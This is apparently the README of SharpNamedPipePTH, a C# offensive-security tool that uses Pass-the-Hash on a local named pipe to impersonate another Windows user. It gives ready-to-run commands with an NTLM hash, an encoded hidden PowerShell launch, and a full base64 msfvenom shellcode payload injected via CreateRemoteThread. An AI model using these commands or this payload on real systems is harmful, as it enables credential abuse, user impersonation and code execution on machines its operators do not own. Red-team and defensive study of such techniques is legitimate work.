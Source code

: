 # SharpNamedPipePTH

This project is a C# tool to use Pass-the-Hash for authentication on a local Named Pipe  for user Impersonation. There is a blog post for explanation:

[https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

It is heavily based on the code from the project [Sharp-SMBExec](https://github.com/checkymander/Sharp-SMBExec/).

I faced certain Offensive Security project situations in the past, where I already had the NTLM-Hash of a `low privileged` user account and needed a shell for that user on the current compromised system - but that was not possible with the current public tools. Imagine two more facts for a situation like that - the NTLM Hash could not be cracked *and* there is no process of the victim user to execute shellcode in it or to migrate into that process. This may sound like an absurd edge-case for some of you. I still experienced that multiple times. Not only in one engagement I spend a lot of time searching for the right tool/technique in that specific situation.

My personal goals for a tool/technique were:

* Fully featured shell or C2-connection as the victim user-account
* It must to able to also Impersonate `low privileged` accounts - depending on engagement goals it might be needed to access a system with a specific user such as the CEO, HR-accounts, SAP-administrators or others
* The tool can be used as C2-module

The impersonated user unfortunately has *no network authentication* allowed, as the new process is using an Impersonation Token which is restricted. So you can only use this technique for local actions with another user.

There are two ways to use SharpNamedPipePTH. Either you can execute a binary (with or without arguments):

`
SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe
`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example1.JPG?raw=true)

`
SharpNamedPipePTH.exe username:testing domain:localhost  hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"
`

Or you can execute shellcode as the other user:

`
SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=
`

Which is `msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0`.

I'm not happy with the shellcode execution yet, as it's currently spawning notepad as the impersonated user and injects shellcode into that new process via D/Invoke CreateRemoteThread Syscall. I'm still looking for possibility to spawn a process in the background or execute shellcode without having a process of the target user for memory allocation.

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example2.JPG?raw=true)


